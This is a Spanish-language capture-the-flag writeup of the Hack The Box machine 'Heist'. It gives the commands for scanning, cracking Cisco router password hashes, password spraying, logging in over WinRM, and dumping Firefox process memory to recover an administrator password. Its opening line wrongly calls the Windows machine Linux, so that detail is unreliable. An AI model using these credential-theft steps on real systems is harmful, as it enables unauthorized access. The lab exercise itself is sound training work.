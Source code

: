 ```yaml
---
title:  "Heist Writeup [ES] - HackTheBox"
date:   2021-11-29 13:00:00 -0300
categories: [HTB]
toc: true
comments: false
tags: [easy, windows, dump-credentials]
---
```


[Heist](https://app.hackthebox.com/machines/201) es una máquina **Linux** de dificultad fácil ofrecida por la plataforma de [Hack The Box](https://app.hackthebox.com/). A lo largo de este post encontrarás un writeup de su resolución.


## Información


![Info](/images/HTB/Heist/01-info.png)


## Enumeración

### Rustscan - NMAP

Como siempre, se iniciará realizando un escaneo general de los 65535 puertos. En este caso se utilizará [Rustscan](https://github.com/RustScan/RustScan), proporcionando comandos de nmap para realizar el escaneo desde un solo comando.

* ```rustscan 10.10.10.149 -- -sC -sV | tee ports-rustcan```

```plaintext
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.10.149:80
Open 10.10.10.149:135
Open 10.10.10.149:445
Open 10.10.10.149:5985
Open 10.10.10.149:49669

(...)

PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

* Resumen puertos

| Puerto    | Estado  | Servicio                        |
|-----------|---------|---------------------------------|
| 80/tcp    | Abierto | http - Microsoft IIS httpd 10.0 |
| 135/tcp   | Abierto | Microsoft Windows RPC           |
| 445/tcp   | Abierto | SMB - microsoft-ds              |
| 5985/tcp  | Abierto | WinRM - Microsoft HTTPAPI httpd |
| 49669/tcp | Abierto | Microsoft Windows RPC           |

### Enumeración web

Lo primero será ingresar a la web y ver que hay expuesto. Se aprecia un login, en donde existe la opción de ingresar como usuario invitado.

![](/images/HTB/Heist/05-web-login.png)

Al entrar como invitado se visualiza una especie de mesa de ayuda con información que podría ser relevante. De primeras se identifica que los usuarios **Hazard** y **admin** pueden ser usuarios potenciales del sistema.

![](/images/HTB/Heist/10-guest-login.png)

El ticket contiene un archivo adjunto que al abrirlo, revela un archivo de configuración de un router cisco.

![](/images/HTB/Heist/15-attachment.png)

De esto podemos extraer potenciales usuarios y contraseñas. Pero antes, habrá que tratar de convertir o crackear los hashes obtenidos.

```plaintext
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91

username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```

En el caso de las ```password 7``` existe un [recurso online](https://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html) que permite desencriptar este tipo de contraseñas.

![](/images/HTB/Heist/20-decrypt-password1.png)

![](/images/HTB/Heist/25-decrypt-password2.png)

Para el último hash, deberemos utilizar ```john``` para romperlo con fuerza bruta utilizando ```rockyou.txt```

* ```john --wordlist=/usr/share/wordlists/rockyou.txt hash```

![](/images/HTB/Heist/30-john-password3.png)

Por lo tanto, tendríamos lo siguiente.

* ```users.txt```

```plaintext
hazard
rout3r
admin
```
* ```passwords.txt```

```plaintext
$uperP@ssword
Q4)sJu\Y8qz*A3?d
stealth1agent
```

## Acceso inicial

Con esta información y utilizando [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec), realizaremos un password spray para detectar si existen credenciales válidas con la información que se ha recopilado hasta el momento.

![](/images/HTB/Heist/35-smb-login.png)

Testeando nuevamente con **CME** validamos que el usuario no tiene permisos para el acceso remoto al protocolo **WinRM**.

![](/images/HTB/Heist/38-winrm-failed-test.png)

Continuando con la enumeración, ahora que tenemos credenciales válidas, se puede intentar un brute-forcing de usuarios a través de RID. Y al cabo de unos segundos se obtienen más usuarios.

![](/images/HTB/Heist/40-smb-rid.png)

Se agregan al archivo ```users.txt``` y realizaremos nuevamente el password spray. 

> Esta vez utilizando el módulo ```smb_login``` de metasploit, ya que por algún motivo **CME** no muestra más matches una vez que encuentra una credencial válida.

![](/images/HTB/Heist/45-user-login.png)

Y como resultado se obtiene una credencial válida para el user **Chase**. Nuevamente se intenta el login a través de **WinRM**, esta vez con éxito.

![](/images/HTB/Heist/50-winrm-test.png)

## Escalada de privilegios

Procedemos a loguear al sistema con [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

* ```evil-winrm -i 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'```

Una vez dentro, haciendo enumeración básica, se detecta algo inusual, al revisar los procesos se ve que está en ejecución **Firefox**, el cual no viene instalado por defecto en Windows. Esto nos da un indicio de que es probable que juegue un rol en la escalada de privilegios.

![](/images/HTB/Heist/55-processes.png)

Siguiendo esta lógica, lo siguiente será realizar un dump del proceso de Firefox para ver que se encuentra almacenado. Para esto utilizaremos una herramienta nativa de Microsoft que se puede descargar desde su web oficial - [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).

Descargamos la herramienta y la subimos a la máquina víctima.

![](/images/HTB/Heist/70-procdump-upload.png)

En su primera ejecución, deberemos aceptar el **EULA** y posterior a esto realizar el **dump**. Para esto existen los siguientes modos:

![](/images/HTB/Heist/72-dump-types.png)

En esta ocasión utilizaremos el modo **Full**, especificando un PID o número de proceso de Firefox.

* ```.\procdump64.exe -ma 6380```

![](/images/HTB/Heist/75-procdump-firefox.png)

Al cabo de unos segundos obtendremos un archivo con extensión ```.dmp``` el cual podríamos intentar leer utilizando ```strings```. Esto se puede realizar transfiriendo el archivo hacia nuestro **Parrot** o bien subir el binario para Windows de la herramienta ```strings```. 

Por lo tanto, haciendo uso de [Impacket](https://github.com/SecureAuthCorp/impacket) para compartir un server **SMB**, transferiremos el archivo a nuestra máquina para leer su contenido.

1. ```strings firefox.exe_211214_081618.dmp -n 30 > output.txt```
2. ```grep --color "password" output.txt```
  
![](/images/HTB/Heist/90-pass-dump.png)

Y obtenemos la siguiente string.

```plaintext
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
De la cual se puede leer la password ```4dD!5}x/re8]FBuZ```. Podemos suponer que esta es la contraseña del usuario **Administrador**, por lo que ya podemos conectarnos y leer las flags.

![](/images/HTB/Heist/100-flags.png)

Y esto sería todo para la máquina Heist, una máquina sencilla pero viene bien para repasar conceptos.